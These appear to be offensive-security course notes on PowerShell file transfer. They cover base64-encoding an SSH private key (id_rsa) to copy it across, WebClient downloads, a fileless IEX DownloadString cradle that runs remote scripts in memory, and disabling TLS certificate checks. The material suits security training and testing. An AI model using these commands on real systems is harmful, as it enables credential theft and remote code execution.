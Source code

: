 
#### PowerShell Base64 Encode & Decode
---
Depending on the size of the payload, we can encode the file to a base64 string, copy its contents from the terminal and perform the reverse operation, decoding the file in the original content.

An essential step using this method is to ensure the file we encoded and decoded is correct. We can use md5sum to verify the checksum.

```bash
cat id_rsa |base64 -w 0;echo
```

```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<string>")
```

Confirm the MD5 hash

```Powershell
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

***Note:** While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.*


### PowerShell Web Downloads
---
Most companies allow HTTP and HTTPS traffic through the firewall. Leveraging these transportation methods for file transfer operations is very convenient. Still, defenders can use Web filtering solutions to prevent access to specific website categories, block the download of file types (like .exe), or only allow access to a list of whitelisted domains in more restricted networks.

##### PowerShell DownloadFile Method
------
We can specify the class name `Net.WebClient` and the method `DownloadFile` with the parameters corresponding to the URL of the target file to download and the output file name.

`DownloadFile`: Downloads data from a resource to a file.
```powershell
(New-Object Net.WebClient).DownloadFile('<target-url','<output-file')
```

`DownloadFileAsync`: Downloads data from a resource to a local file without blocking the calling thread.
```powershell
(New-Object Net.WebClient).DownloadFileAsync('<target-url','<output-file')
```

##### PowerShell DownloadString - Fileless Method
----
Fileless attacks work by using some OS function to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the `Invoke-Expression` cmdlet or the alias `IEX`.

```powershell
IEX (New-Object Net.WebClient).DownloadString('<target-url')
```

`IEX` also accepts pipeline input
```powershell
(New-Object Net.WebClient).DownloadString('<target-url') | IEX
```

##### PowerShell Invoke-WebRequest
---
From PowerShell 3.0 onwards, the `Invoke-WebRequest` cmdlet is also available. You can use the aliases `iwr`, `curl` and `wget` instead of the full name.
```powershell
Invoke-WebRequest <target-url> -OutFile <output-file>
```

##### Common Errors with PowerShell
---
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

This can be bypassed using the parameter `-UseBasicParsing`.

Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:

```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```